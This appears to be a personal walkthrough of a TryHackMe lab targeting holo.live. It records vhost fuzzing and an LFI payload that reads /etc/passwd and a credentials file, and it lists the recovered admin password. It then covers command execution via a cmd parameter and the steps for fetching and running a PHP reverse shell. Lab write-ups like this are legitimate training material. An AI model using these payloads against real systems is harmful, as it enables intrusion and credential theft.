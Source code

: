 ![[Pasted image 20250405024924.png]]
- `robots.txt`
	- ![[Pasted image 20250405025235.png]]
- Add `holo.live` in `/etc/hosts` file to access these
- **All are forbidden :(**
- ![[Pasted image 20250405032830.png]]
- ![[Pasted image 20250405032840.png]]

# Vhosts enumeration:
---
- `ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt  -u http://holo.live -H "Host: FUZZ.holo.live" -fw 1288`
	- ![[Pasted image 20250405032934.png]]
- ==Add `www.holo.live admin.holo.live` dev.holo.live` to /etc/hosts as well==


# admin.holo.live
---
![[Pasted image 20250405043717.png]]
- robots.txt:
	- ![[Pasted image 20250405041914.png]]
- These give `403` forbidden

# dev.holo.live
---

![[Pasted image 20250405043726.png]]
- **gobuster scan reveals:**
- ![[Pasted image 20250405043640.png]]

# LFI
---
- Note: this was covered in **THM walkthrough**, there is no way I can find LFI on my own from this alone
- `http://dev.holo.live/img.php?file=../../../../etc/passwd`
	- ![[Pasted image 20250405043936.png]]
- Let's get `supersecretcredentials` from `admin` domain
- `http://dev.holo.live/img.php?file=/var/www/admin/supersecretdir/creds.txt`
	- ![[Pasted image 20250405044052.png]]
	- **Credentials : `admin:DBManagerLogin!`**
	- Some user: `gurag`

# Login as `admin` on `admin.holo.live`
---
![[Pasted image 20250405044226.png]]
- Page source gives `possible RCE`:
	- ![[Pasted image 20250405044511.png]]

# RCE on admin portal
---
- `http://admin.holo.live/dashboard.php?cmd=whoami`
	- ![[Pasted image 20250405044539.png]]
- Get a shell (pentestmonkey php shell)
	- Host `shell.php` using `python3`
	- Download using `curl` using `burpsuite`
	- ![[Pasted image 20250405045725.png]]
	- ![[Pasted image 20250405045823.png]]
	- Maybe inside a docker :
	- ![[Pasted image 20250405050023.png]]